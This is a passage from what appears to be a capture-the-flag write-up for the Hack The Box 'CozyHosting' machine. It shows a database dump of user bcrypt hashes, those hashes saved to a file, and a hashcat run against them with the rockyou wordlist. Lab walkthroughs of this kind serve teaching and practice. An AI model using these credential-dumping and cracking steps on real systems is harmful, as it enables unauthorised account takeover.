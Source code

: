 Let's investigate `cozyhosting` database.

```bash
\c cozyhosting
You are now connected to database "cozyhosting" as user "postgres".
\d
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)

SELECT * FROM users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

I found two hashes for `kanderson`, and `admin`.
Let's make a file containing these two hashes.

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting]
└─$ cat hashes                                 
kanderson:$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
admin:$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
```

I can crack them using `hashcat`.

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting]
└─$ hashcat hashes --user /usr/share/wordlists/rockyou.txt.gz
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================
* Device #1: cpu--0x000, 1436/2937 MB (512 MB allocatable), 2MCU

The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce

Please specify the hash-mode with -m [hash-mode].

Started: Mon Apr  7 20:02:10 2025
Stopped: Mon Apr  7 20:02:10 2025
```
